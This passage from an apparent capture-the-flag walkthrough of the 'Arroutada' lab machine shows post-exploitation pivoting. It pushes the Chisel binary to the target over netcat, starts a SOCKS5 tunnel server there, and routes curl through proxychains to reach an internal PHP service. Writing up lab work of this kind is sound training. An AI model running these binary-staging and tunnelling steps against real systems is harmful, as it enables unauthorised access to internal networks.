 Next, we will send the binary from our attack host to our target using Netcat by connecting to the listener we started previously.
```bash
┌──(pentester㉿kali)-[~/Arroutada/Misc Files]
└─$nc -q 0 10.0.2.12 9000 < chisel
```

If we check on our target we will see the binary file and we can give it execution permissions.
```bash
ls 
chisel
chmod 755 chisel
```

With Chisel on our target, we can start a Chisel server in the background that will listen to clients' connections.
```bash
./chisel server -p 4444 --socks5&
```

After this, we can connect to the server by using a Chisel client on our attack host. This will create a listener on our attack host on port 1080. All requests made through this port will be sent through the Chisel connection to our target and our target will send the request to the intended IP address.
```bash
┌──(pentester㉿kali)-[~/Arroutada/Misc Files]
└─$chisel client -v 10.0.2.12:4444 socks
2024/09/13 23:18:27 client: Connecting to ws://10.0.2.12:4444
2024/09/13 23:18:27 client: tun: proxy#127.0.0.1:1080=>socks: Listening
2024/09/13 23:18:27 client: tun: Bound proxies
2024/09/13 23:18:27 client: Handshaking...
2024/09/13 23:18:27 client: Sending config
2024/09/13 23:18:27 client: Connected (Latency 1.745593ms)
2024/09/13 23:18:27 client: tun: SSH connected
```

When the proxy is set up, we can configure our proxychain's configuration file by commenting all proxies used and adding the line ```socks5  127.0.0.1 1080```. The next step will be for us to conduct an Nmap scan to discover the service running on this port but from the enumeration we did above we already know it's a simple PHP server running on this port. We can use proxychain and curl to communicate with this server.
```bash
┌──(pentester㉿kali)-[~/Arroutada/Misc Files]
└─$proxychains curl http://127.0.0.1:8000
<SNIP>
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  127.0.0.1:8000  ...  OK
<h1>Service under maintenance</h1>
<br>
<h6>This site is from ++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>---.+++++++++++..<<++.>++.>-----------.++.++++++++.<+++++.>++++++++++++++.<+++++++++.---------.<.>>-----------------.-------.++.++++++++.------.+++++++++++++.+.<<+..</h6>

<!-- Please sanitize /priv.php -->
```
